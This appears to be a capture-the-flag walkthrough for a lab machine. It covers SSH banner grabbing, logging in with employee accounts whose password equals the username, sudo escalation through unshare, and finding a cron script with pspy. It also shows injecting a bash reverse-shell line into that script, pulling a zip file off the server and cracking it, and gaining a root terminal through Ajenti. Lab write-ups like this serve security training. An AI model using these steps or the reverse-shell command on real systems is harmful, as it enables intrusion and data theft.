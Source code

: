 This one's a little messed up. There are 2 flags here user and root.

Doing a nmap scan we see there are 3 ports http/80, http/8000, ssh/22.

Now we can try to scan http/80 for something but that will give us nothing. It is on big rabbit hole. But http/8000 is ajenti login portal.

There is no way of enumerating users and passwords here so we have to exploit this using ssh port.

This requires something called banner grabbing. For that we can just try and login as any user. 

__ssh target_ip__ --> Here in the banner we see username format for different users.

```
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
                                                                - BOSS
```        
We try logging using employee1:employee1. And we're in. So probably all users have username as their password.

Also the line _one of my employee have sudo powers because he is my favourite_ is interesting.

We can write a script to login as employees and run the command __sudo -l__ and scout the output.

After running the script for sometime we get that employee64 can run sudo commands as user programmer.

Logging in as him still we can't find anything significant in all his directories. So we download __pspy64__ onto the server and run that to see if there are any cronjobs running in the background. 

We see that there is a script running in the background in programmer dir. So we need to login as him to access it to change it.

__sudo -u programmer /usr/bin/unshare__ --> Now we are logged as programmer so we can change the script running in the background.

```
2020/12/17 10:12:02 CMD: UID=1183 PID=3796   | /bin/bash /media/programmer/scripts/backup.sh 
```
We see that this script runs as UID=1183 which is not the UID of programmer. We can find out who it is by running a simple command.

__cat /etc/passwd | grep -e "UID=1183"__

We see that user 1183 is vanshal. so we can get a shell as vanshal if we add a bash reverse shell script to the backup.sh file and listen on another port.

__bash -i >& /dev/tcp/host_ip/port 0>&1__ --> added in backup.sh

Note: we can't use nano because it's not on this machine we have to use vim editor.

___After we get a shell we got the FIRST FLAG in local.txt.___

We can run python2 on this so let's start a http server and download the secret.zip file onto our system.

__python -m SimpleHTTPServer 4445__ --> Port number can be anything that's not already in use by the system.

After downloading the file we can [crack the password using john the ripper](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html).

We find that __password to zip file is 81237900__. Opening that we get a very secure password in Mypassword.txt file.

This might be the password for that ajenti login running on port 8000. And yes, it is.

__root: contents of Mypasswords.txt__

Now here on the website we see a tab saying terminal. Going to it we see we have a root terminal shell.

___We can change into the root directory and read the PROOF.TXT which is the ROOT FLAG.___

And That's it.
